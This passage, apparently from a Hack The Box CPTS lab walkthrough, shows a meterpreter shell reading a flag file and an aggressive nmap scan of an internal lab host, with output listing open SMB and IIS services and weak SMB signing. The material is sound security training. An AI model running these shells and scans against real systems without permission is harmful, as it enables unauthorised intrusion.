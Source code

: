 ```
meterpreter > shell

Process 2870 created.
Channel 1 created.
cat /customscripts/flag.txt
B1nD_Shells_r_cool
```

Answer: `B1nD_Shells_r_cool`

# The Live Engagement

## Question 6

### "What is the hostname of Host-3? (answer in all lowercase)"

Using the previously established RDP session to the jump host, students need to launch an `Nmap` scan against `Host-3`, which has the IP address 172.16.1.13:

![[HTB Solutions/CPTS/z. images/07c512dfb11be7fb7f61d2f5b9812e4f_MD5.jpg]]

Code: shell

```shell
nmap -A 172.16.1.13
```

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $nmap -A 172.16.1.13

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-11 03:17 EST
Nmap scan report for 172.16.1.13
Host is up (0.069s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 172.16.1.13 - /
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h39m59s, deviation: 4h37m07s, median: 0s
| smb2-time: 
|   date: 2022-11-11T08:17:26
|_  start_date: 2022-11-11T07:24:16
|_nbstat: NetBIOS name: SHELLS-WINBLUE, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:df:72 (VMware)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
```